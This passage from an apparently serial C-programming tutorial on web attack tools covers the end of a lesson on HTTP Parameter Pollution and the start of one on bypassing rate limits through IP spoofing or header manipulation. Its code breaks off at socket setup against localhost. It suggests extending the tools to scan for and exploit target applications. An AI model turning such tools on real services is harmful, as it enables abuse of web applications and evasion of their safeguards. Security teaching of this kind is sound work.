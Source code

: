 #### Explanation:

- The `perform_pollution` function prints the manipulated URL with the injected malicious parameter to demonstrate the impact of an HTTP Parameter Pollution vulnerability. In a real-world scenario, the HTTP request with the manipulated parameters would be sent to the target URL.
- In this example, we use a hardcoded target URL (`http://example.com/page?param1=value1&param2=value2`) and a malicious parameter (`param3=malicious_value`) to demonstrate how additional parameters can be injected into the query string.

#### Further Development:

To make this tool more comprehensive and effective, you can enhance it with the following features:

- Support for parsing and manipulating various types of HTTP requests (e.g., GET, POST) to inject parameters in different parts of the request.
- Integration with a web server or proxy to intercept and modify HTTP requests and responses in real-time.
- Automated scanning and analysis of target web applications to identify and exploit HTTP Parameter Pollution vulnerabilities.

#### Conclusion:

Building an HTTP Parameter Pollution tool in C helps demonstrate the potential risks associated with inconsistent parameter handling in web applications. By understanding how such vulnerabilities can be exploited, developers and security professionals can implement measures to prevent and mitigate HTTP Parameter Pollution attacks.

This concludes our twenty-ninth lesson on building an HTTP Parameter Pollution tool in C. If you have any questions or would like to explore specific topics further, feel free to ask!

### Lesson 30: Building a Rate Limit Bypass Tool in C

In this lesson, we'll develop a simple command-line tool in C programming to bypass rate limiting mechanisms implemented in web applications. Rate limiting is a common security measure used to restrict the number of requests a client can make to a server within a specified time period. Our tool will manipulate HTTP requests to bypass rate limits by employing techniques such as IP spoofing or request header manipulation.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

#define TARGET_IP "127.0.0.1"
#define TARGET_PORT 80
#define NUM_REQUESTS 1000

// Function to perform a rate limit bypass attack
void perform_bypass() {
    int sockfd;
    struct sockaddr_in target_addr;

    // Create socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        perror("Error creating socket");
        exit(EXIT_FAILURE);
    }

    // Initialize target address structure
    memset(&target_addr, 0, sizeof(target_addr));
    target_addr.sin_family = AF_INET;
```